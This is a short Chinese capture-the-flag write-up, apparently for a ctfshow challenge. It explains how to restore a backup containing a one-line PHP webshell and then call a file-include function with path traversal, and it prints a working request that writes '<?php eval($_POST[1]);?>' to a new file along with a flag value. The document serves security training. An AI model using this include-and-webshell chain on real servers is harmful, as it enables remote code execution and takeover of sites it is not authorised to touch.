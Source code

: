 ### 获取file位置

db/data_you_never_know.db  该文件为存放用户信息的数据文件，通过数据还原上传的问题在此位置，绝对路径为/var/www/html/system36d/db/data_you_never_know.db

### 上传shell

在备份文件恢复出上传一句话木马，密码为1

![image-20211104180653950](images/image-20211104180653950.png)

再利用`common.php`中的包含函数执行

```
/system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}

key=key_is_here_you_know&file=../../../../../../../../../../../../var/www/html/system36d/db/data_you_never_know.db&1=file_put_contents('../../../../../../../../..//var/www/html/system36d/2.php', '<?php eval($_POST[1]);?>');
```

![image-20211104180746078](images/image-20211104180746078.png)
